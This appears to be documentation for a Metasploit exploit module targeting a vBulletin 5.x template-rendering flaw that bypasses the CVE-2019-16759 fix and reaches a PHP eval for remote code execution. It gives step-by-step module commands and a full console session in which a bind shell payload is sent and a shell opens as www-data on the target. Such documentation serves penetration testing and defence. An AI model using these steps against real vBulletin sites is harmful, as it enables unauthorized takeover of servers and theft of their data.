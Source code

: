 ## Vulnerable Application

[vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
This module has been tested successfully against vBulletin 5.6.2 running on Ubuntu Linux 19.04.

### Description

This module exploits a logic bug within the template rendering code of vBulletin 5.x. The module
uses the vBulletin template rendering functionality to render the 'widget_tabbedcontainer_tab_panel'
template while also providing the 'widget_php' argument which causes the former template to load the
latter bypassing filters originally put in place to address 'CVE-2019-16759'. This also allows the
exploit to reach an eval call with user input allowing the module to achieve PHP remote code execution
on the target. This module has been tested successfully on vBulletin version 5.6.2 on Ubuntu Linux.

## Verification Steps

1. Do: `use exploit/multi/http/vbulletin_widget_template_rce`
2. Do: `set RHOSTS [IP]`
3. Do: `set VHOST [HOSTNAME]`
4. Do: `set LHOST [IP]`
5. Do: `set TARGETURI [PATH]`
6. Do: `set PAYLOAD [PAYLOADNUM]`
7. Do: `run`

## Options

### TARGETURI

The base URI path of vBulletin. **Default: /**

### PHP_CMD

The PHP function to use to execute commands on the target. **Default: shell_exec**

## Scenarios

```
msf6 > use exploit/multi/http/vbulletin_widget_template_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set VHOST vb.local
VHOST => vb.local
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set PAYLOAD 5
msf6 exploit(multi/http/vbulletin_widget_template_rce) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending php/bind_perl command payload
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 127.0.0.1:4444) at 2020-08-09 06:29:57 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
